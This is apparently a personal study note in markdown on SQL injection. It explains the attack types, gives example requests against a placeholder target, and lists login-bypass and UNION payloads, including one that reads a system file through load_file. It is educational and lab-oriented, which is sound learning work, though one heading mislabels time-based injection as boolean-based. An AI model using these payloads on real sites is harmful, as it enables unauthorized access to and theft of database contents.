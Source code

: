 # SQL Injection

* Vulnerability that consists of an attacker interfering with the SQL queries that an application makes to a database.

## Impact of SQL Injection Attacks

* Unauthorized access to sensitive data
	
	* Confidentiality - SQLi can be used to viwe sensitive information, such as application username and passwords
	* Integirity - SQLi can be used to alter data in the database
	* Availability - SQLi can be used to delete data in the database

## Types of SQL Injection
	
	* In-Band(classic)
		* Error
		* Union
	* Inferential(Blind)
		* Boolean
		* Time
	* Out-of-Bnad

### Error-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id='

			Response:	
			You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version ...

### Union-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=' UNION SELECT username, password FROM users--

			Response:	
			administrator
			carlos

### Boolean-Based SQLi 

	Example:
			Request:
			www.target.com/app.php?id=1 and 1=2

			Response:	
			False

			Request:
			www.target.com/app.php?id=1 and 1=1

			Response:	
			True

### Boolean-Based SQLi 

	Example:
			If the first character of the admin's hashed passwd is an 'a', wait for 10 seconds.
				-> response takes 10 second -> first letter is 'a'
				-> response doesn't takes 10 second -> first letter is not 'a'

### Out-of-band-Based SQLi 

	Example 

		will discuss...

## Finding  SQLi Vulnerabilities

	* Submit SQL-specific characters such as ' or ", and look errors or other anomalies
	* Submit Boolean conditons such as OR 1=1 and OR 1=2, and look for differences in the applications responcses
	* Submit Payloads designed to trigger time delays when executed within a SQL query, and look for diffrences in the time taken to respond
	* Submit OAST Payloads designed to trigger out-of-band network interaction when executed within a SQL query, and monitor for any resulting interactions

Automated Exploitation Tool

	sqlmap (https://github.com/sqlmapproject/sqlmap)

## Payloads
```
	'
	"
	)'
	)"
	')
	")
	'))
	"))
```

## Login Bypass
```
	' or 1=1 --
	' or '1'='1
	' or 1=1 --+
	admin' or 1=1;#
	admin' or 1=1 LIMIT 1;#
	admin' or 1=1 LIMIT 0,1;#
```

## Union Based SQL
```
	order by 1
	order by 2
	order by 3
	' UNION SELECT NULL --
	' UNION SELECT NULL,NULL --
	' UNION SELECT 1,2,3 -- -
	' UNION SELECT 1,load_file('/etc/password'),3 --
```

## Resources and Labs:

	https://smoggy-mozzarella-076.notion.site/SQL-d655b37898be4bf8a5c816e6a79f4e96
	https://portswigger.net/web-security/sql-injection
	https://tryhackme.com/room/sqlilab
	https://medium.com/nerd-for-tech/some-tips-for-sql-injections-764e1a254a29



